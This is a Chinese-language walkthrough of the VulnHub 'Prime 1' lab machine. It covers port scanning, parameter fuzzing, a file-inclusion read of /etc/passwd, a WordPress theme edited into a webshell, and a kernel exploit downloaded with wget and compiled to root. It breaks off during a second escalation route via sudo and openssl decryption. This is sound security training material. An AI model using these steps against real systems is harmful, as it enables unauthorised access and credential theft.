## 0x00 前言

### 靶场介绍

Prime 1 是 Suraj Pandey 在 2019 年 9 月 1 日发布的 Prime 系列第一台机器，面向正在备考 OSCP 或 OSCP-Exam 的人练手。整台机器的玩法基本就是一关一关解谜，然后最终获取 user flag 和 root flag。

靶场链接：https://www.vulnhub.com/entry/prime-1,358/

下载链接：https://download.vulnhub.com/prime/Prime_Series_Level-1.rar

### 涉及工具

- nmap（tcp与udp端口 / 服务识别 /漏洞脚本 ）
- ffuf /dirsearch
- wfuzz（参数fuzz）
- wpscan（扫描 WordPress）
- 冰蝎
- searchsploit
- openssl

## 0x01 Web打点

### 确认 IP

在攻击机使用`ip a`命令拿到内网范围然后使用 nmap 探测

```bash
nmap -sn 192.168.43.6/24
or
arp-scan -l
```


确认目标靶场 IP 是 **192.168.4.11**

### 信息收集

#### TCP 扫描

```bash
nmap -Pn -sT 192.168.43.11 -p- --min-rate 1000 -oA nmapscan/ports
```

得知开放两个端口：22 / 80



惯例扫一下细节

```bash
nmap -Pn -sT -O -sC -sV -p22,80 192.168.43.11 -mr 1000 -oA nmapscan/detail
```



#### 漏洞扫描

```bash
nmap -Pn --script=vuln -p22,80 192.168.43.11 -oA nmapscan/vuln
```



没有扫出什么nday，但是有一个`/wordpress`目录

#### UDP 扫描

```txt
root@servername:/home/noroot/Prime# nmap -Pn -sU -mr 1000 -p- 192.168.43.11 -oA nmapscan/udp
# 开放情况
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

无明确开放的端口/服务，目前没有进一步追的价值

#### 目录遍历

首先访问 80 端口看到了一张图片，没看见隐藏信息。

进行目录遍历

```bash
ffuf -w common.txt:FUZZ -u http://192.168.43.11/FUZZ -fc 404
```

得到两个状态码 200 的文件，`index.php`和`dev`，其中`index.php`就是首页图片



这里访问 `dev` 路径

得到内容

```txt
root@servername:/home/noroot/Prime# curl http://192.168.43.11/dev
hello,

now you are at level 0 stage.

In real life pentesting we should use our tools to dig on a web very hard.

Happy hacking.
```

目前处于 level 0，这里说要进行更深度的探测，那么加上文件后缀再扫一遍

```bash
ffuf -w common.txt:FUZZ -u http://192.168.43.11/FUZZ -fc 404 -e .tar,.rar,.txt,.php,.html,.bak,.zip
```

发现多出了两个文件

- secret.txt
- image.php

其中 `image.php` curl 一下和 `index.php` 一个样，另一个文件有提示

```txt
root@servername:/home/noroot/Prime# curl http://192.168.43.11/secret.txt
Looks like you have got some secrets.

Ok I just want to do some help to you. 

Do some more fuzz on every page of php which was finded by you. And if
you get any right parameter then follow the below steps. If you still stuck 
Learn from here a basic tool with good usage for OSCP.

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
 


//see the location.txt and you will get your next move//


```

这里说 `location.txt` 文件，但是这个文件不存在，先记着

### 漏洞探测

#### 参数 fuzz

上面的提示说对 php 文件使用 `wfuzz` 进行参数 fuzz

```bash
wfuzz -c -w ../resourse/common.txt --hh 136 http://192.168.43.11/index.php?FUZZ
```

得到参数 `file`，这里输入 `location.txt` 则多出了一些提示，说另一个 php 文件参数是 `secrettier360`

```txt
root@servername:/home/noroot/Prime# curl http://192.168.43.11/index.php?file=location.txt
<html>
<title>HacknPentest</title>
<body>
 
</body>

Do something better <br><br><br><br><br><br>ok well Now you reah at the exact parameter <br><br>Now dig some more for next one <br>use 'secrettier360' parameter on some other php page for more fun.
</html>
```



#### 文件读取

由于前面的参数是 `file` ，这里访问 `image.php` 并带上参数后尝试输入 Linux 常见文件 `/etc/passwd`



内容如下

```txt
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false whoopsie:x:109:117::/nonexistent:/bin/false avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false saned:x:119:127::/var/lib/saned:/bin/false usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false victor:x:1000:1000:victor,,,:/home/victor:/bin/bash mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false saket:x:1001:1001:find password.txt file in my directory:/home/saket: sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
```

可以看到提示 `saket:x:1001:1001:find password.txt file in my directory:/home/saket`

依据提示访问这个 `/home/saket/password.txt` 文件，内容为 `follow_the_ippsec`，一个密码，先记着

#### Wordpress

感觉前面探索差不多了，还记得是有一个 wordpress 路径的，浏览器访问



因为已经获得了密码，这里尝试使用 `wpscan` 工具获取账户

```bash
wpscan --url http://192.168.43.11/wordpress -e u
```

账户部分的内容如下，找到一个账户 `victor`

```txt
[+] victor
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

这里尝试一下使用前面的账号密码登陆后台，成功！



##### 尝试写入后门

1、首先尝试使用上传插件功能上传后门，结果上传示例 zip 文件显示没有权限

Plugins  -- >  Installed Plugins  -- >  Add new  -- >  Upload Plugins



Plugins  -- >  Plugins  Editor 看了一下也没有能修改的 php 文件

2、然后尝试主题文件有没有能修改的 php 文件

Appearance  -- >  Theme Editor

找到 `secret.php` 有写权限，修改成冰蝎后门并更新



##### 冰蝎连接

尝试连接`http://192.168.43.11/wordpress/wp-content/themes/twentynineteen/secret.php`，成功 getshell



#### 获取 user flag

很容易找到 `/home/saket/user.txt` 的 flag

```txt
cat /home/saket/user.txt
af3c658dcf9d7190da3153519c003456
```


## 0x02 权限提升

### 方法一：漏洞提权

#### 查看指纹

```txt
www-data@ubuntu:/$ uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### 搜索漏洞

得知版本后使用 searchsploit 数据库搜索提权漏洞

```bash
searchsploit Linux ubuntu 4.10.0-28 kernel
```

```txt
root@servername:/home/noroot/Prime# searchsploit Linux ubuntu 4.10.0-28 kernel
------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                             |  Path
------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                       | linux/dos/43234.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation              | linux/local/45010.c
------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

第一个漏洞是 dos 的，关注第二个，下载到攻击机

```bash
searchsploit Linux ubuntu 4.10.0-28 -m 45010
```

编译下载的 45010.c 文件

```
gcc 45010.c -o 45010
```

#### 利用漏洞

使用 php 或者 python 在当前目录启动 Web 服务，让目标可以访问下载

```txt
# php
php -S 0:8080

# python -默认0.0.0.0:8000
python3 -m http.server
python3 -m http.server 88888 -b 0.0.0.0
```

一般 `/tmp` 目录所有用户都有读写执行权限，在这个目录下下载脚本

也可以执行命令查找可读写执行的目录

```bash
find / -type d -readable -writable -executable 2>/dev/null
```

目标使用 wget 下载 45010 和 45010.c

```txt
# wget
wget http://hostname:ip/45010
wget http://hostname:ip/45010.c
# curl（靶机没有curl命令）
curl -O http://hostname:ip/45010
curl -O http://hostname:ip/45010.c
```

尝试执行编译后的脚本，失败，无返回

```bash
chmod +x 45010
./45010
```

测试发现目标机存在 c 环境，直接在目标机上编译并执行

```bash
gcc 45010.c -o 45010local
chmod +x 45010local
./45010local
```

成功拿到 root 权限



#### 获取 root flag

目标是有 python 环境的，先生成一个交互性更好的终端

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

然后很容易找到 root flag 的位置

```bash
cat /root/root.txt
b2b17036da1de94cfb024540a8e7075a
```

### 方法二：enc 提权

#### 执行 enc

列出当前用户被允许（或禁止）执行哪些需要管理员权限的命令

```txt
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc
```

可以发现文件 `/home/saket/enc` 可以被 `www-data` 用户以 root 身份无密码执行

尝试执行此文件，发现不用输入 root 密码但是文件本身执行需要密码，试着输入 `follow_the_ippsec` ，失败



#### 找密码

需要密码但是目前没有其他密码，尝试找目标机中是否有 passwd 的备份文件

```bash
find / -type f \(   -iname '*backup*' -o   -iname '*.bak' -o   -iname '*.old' -o   -iname '*.orig' -o   -iname '*.save' -o   -iname '*.swp' -o   -iname '*~' \) 2>/dev/null | sort
或者
locate -i -b '*backup*' '*.bak' '*.old' '*.orig' '*.save' '*.swp' '*~' | sort
```

也可以根据文件修改时间来找

```bash
find /var/www /srv /opt /home /tmp -type f -printf '%TY-%Tm-%Td %TH:%TM %p\n' 2>/dev/null | sort -r | head -50
```

最后将可疑文件一个个打开，找到 `/opt/backup/server_database/backup_pass`

```txt
/home/saket/ >cat /opt/backup/server_database/backup_pass
your password for backup_database file enc is 

"backup_password"


Enjoy!

```

尝试将执行 `./enc` 文件并输入这个密码，打印 good

查看当前目录发现多了两个文件

```txt
www-data@ubuntu:/home/saket$ ls -l
total 32
-rwxr-x--x 1 root root 14272 Aug 30  2019 enc
-rw-r--r-- 1 root root   237 Oct  8 21:38 enc.txt
-rw-r--r-- 1 root root   123 Oct  8 21:38 key.txt
-rw-r--r-- 1 root root    18 Aug 29  2019 password.txt
-rw-r--r-- 1 root root    33 Aug 31  2019 user.txt
```

#### openssl 解密

看到 enc 和 key 很明显需要解密，应该是对称加密

查看两文件内容

```txt
www-data@ubuntu:/home/saket$ cat enc.txt 
nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=
www-data@ubuntu:/home/saket$ cat key.txt 
I know you are the fan of ippsec.

So convert string "ippsec" into md5 hash and use it to gain yourself in your real form.
```

在攻击机上先解密完

依据提示 key 是 “ippsec” 的 md5 值，再编码成 16 进制就可以尝试破解了

```bash
echo -n 'ippsec' | md5sum
```

将得到的值 `366a74cb3c959de17d61db30591c39d1` 16进制编码，去除中间空格回车

```bash
echo -n "366a74cb3c959de17d61db30591c39d1" | od -An -t x1 | tr -d ' ' | tr -d '\n'
```

得到 key 为 `3336366137346362336339353964653137643631646233303539316333396431`

先获得 openssl 所有支持的对称加密的文件

```bash
openssl enc -list | awk 'NR>1 { for (i=1; i<=NF; i++) { sub(/^-/, "", $i); print $i } }' > enc
```

然后尝试批量破解

```bash
for i in $(cat enc); do
    result=$(echo 'nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=' | openssl enc -d -a -$i -K 3336366137346362336339353964653137643631646233303539316333396431 2>/dev/null)
    if [ $? -eq 0 ] && [[ "$result" =~ [a-zA-Z] ]]; then
        echo "解密成功，算法: $i"
        echo "========================"
        echo "$result"
 	echo "========================"
        break
    fi
done
```

解密成功，算法是 **aes-256-ecb**，输出为

```txt
解密成功，算法: aes-256-ecb
========================
Dont worry saket one day we will reach to
our destination very soon. And if you forget 
your username then use your old password
==> "tribute_to_ippsec"

Victor,
========================
```

#### 提权并获取 root flag

前面获得了一个密码，依据提示尝试切换用户成 `saket`，输入获得的密码成功提权至 saket

```bash
su saket
```

如果是通过 ssh 连接的可以通过目标机的 python 环境创建一个好交互的终端环境

```bash
ssh saket@192.168.43.11
python -c 'import pty;pty.spawn("/bin/bash")'
```

首先查看一下当前 saket 用户拥有的所有特权命令

```txt
saket@ubuntu:/tmp$ sudo -l
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (root) NOPASSWD: /home/victor/undefeated_victor
```

发现一个文件可以以 root 身份无密码运行，尝试执行，提示一个文件不存在

